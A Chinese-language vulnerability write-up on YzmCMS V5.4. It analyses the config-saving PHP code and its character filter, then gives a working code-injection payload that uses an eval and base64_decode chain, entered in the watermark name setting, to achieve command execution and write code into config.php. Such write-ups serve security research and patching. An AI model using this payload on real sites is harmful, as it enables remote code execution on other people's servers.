


# YzmCMS V5.4 后台getshell（二）

## 一、漏洞简介

## 二、漏洞影响

YzmCMS V5.4

## 三、复现过程

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。


该函数位于文件`application/admin/common/function/function.php`

```
function set_config($config) {
    $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
    if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
    $pattern = $replacement = array();
    foreach($config as $k=>$v) {
        $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
        $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
    }
    $str = file_get_contents($configfile);
    $str = preg_replace($pattern, $replacement, $str);
    return file_put_contents($configfile, $str, LOCK_EX);       
} 
```

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

```
public function save() {
        yzm_base::load_common('function/function.php', 'admin');
        if(isset($_POST['dosubmit'])){
            if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
            }
            if(isset($_POST['upload_types'])){
                if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
            }
            $arr = array();
            $config = D('config');
            foreach($_POST as $key => $value){
                if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                    $value = safe_replace(trim($value));
                    $arr[$key] = $value;
                }else{
                    if($key!='site_code'){
                        $value = htmlspecialchars($value);
                    }
                }
                $config->update(array('value'=>$value), array('name'=>$key));
            }
            set_config($arr);
            delcache('configs');
            showmsg(L('operation_success'), '', 1);
        }
    } 
```

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

```
function safe_replace($string) {
    $string = str_replace('%20','',$string);
    $string = str_replace('%27','',$string);
    $string = str_replace('%2527','',$string);
    $string = str_replace('*','',$string);
    $string = str_replace('"','',$string);
    $string = str_replace("'",'',$string);
    $string = str_replace(';','',$string);
    $string = str_replace('<','&lt;',$string);
    $string = str_replace('>','&gt;',$string);
    $string = str_replace("{",'',$string);
    $string = str_replace('}','',$string);
    $string = str_replace('\\','',$string);
    return $string;
} 
```

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。



通过上文的分析我们来构建payload。

将`system('echo 123');`base64_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

```
$1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1 
```

先查看配置文件原先的内容


回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。


提交以后可以发现已经成功执行命令了



再回去查看配置文件可以看到代码也写入了


## 参考链接

> https://xz.aliyun.com/t/7231#toc-5